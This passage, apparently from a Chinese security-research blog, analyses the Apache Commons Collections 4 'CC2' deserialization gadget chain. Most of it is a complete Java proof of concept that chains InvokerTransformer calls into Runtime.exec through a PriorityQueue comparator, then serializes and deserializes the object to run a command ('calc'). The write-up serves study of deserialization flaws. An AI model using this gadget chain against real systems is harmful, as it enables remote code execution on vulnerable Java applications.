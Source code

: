 这里调用了transform方法,分析了CC1,这里就想到了CC1后半段`InvokerTransformer`类的transform方法可以去执行命令

现在的问题是前面说size的值要大于等于2,但是默认值是0

![image-20211220194956220](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211220194956220.png)

所以我们需要去向`PriorityQueue`类添加两个元素,直接用add添加两个元素

所以大致的POC如下

```
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.util.PriorityQueue;

public class CC2Test {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(1,Tcomparator);

        queue.add(1);
        queue.add(2);


        try{
            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("cc2.txt"));
            outputStream.writeObject(queue);
            outputStream.close();
            System.out.println(barr.toString());

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("cc2.txt"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
